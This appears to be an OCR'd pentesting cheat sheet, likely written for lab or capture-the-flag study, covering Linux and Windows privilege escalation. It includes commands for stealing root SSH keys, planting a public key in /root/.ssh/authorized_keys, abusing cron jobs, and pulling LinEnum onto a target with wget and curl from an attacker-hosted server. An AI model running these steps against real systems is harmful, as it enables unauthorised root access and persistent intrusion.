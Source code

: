 #### PrivEsc
----------------
Linux: LinEnum, linuxprivchecker

Windows: Seatbelt, JAWS

PEASS

Look for Kernel Exploits

Display vulnerable software:
- dpkg -l
- C:\Program Files

User Privileges
1. Sudo
	1. sudo -l
		1. Displays which commands user can run with sudo privileges
	2. sudo -u user
		2. Runs the command as the user (no password needed)
2. SUID
3. Windows Token Privileges

Scheduled Tasks
4. Add new scheduled tasks/cron jobs
	1. /etc/crontab
	2. /etc/cron.d
	3. /var/spool/cron/crontabs/root
5. Trick them to execute a malicious software

Exposed Credentials

SSH Keys
- Read .ssh directory for keys
	- /home/user/.ssh/id_rsa
	- /root/.ssh/id_rsa
		- vim id_rsa
		- chmod 600 id_rsa
		- ssh root@ip -i id_rsa
- Write to .ssh directory with our public key
	- /home/user/.ssh/authorized_keys
	- ssh-keygen -f key (on our machine)
	- echo "ssh-rsa ..." >> /root/.ssh/authorized_keys


### Transferring Files
-------------------
Run Python HTTP server and use wget or curl
Base64 encode the file

python3 -m http.server 8000
wget http://10.10.13.1:8000/linenum.sh
curl http://10.10.13.1:8000/linenum.sh -o linenum.sh

scp linenum.sh user@remotehost:/tmp/linenum.sh
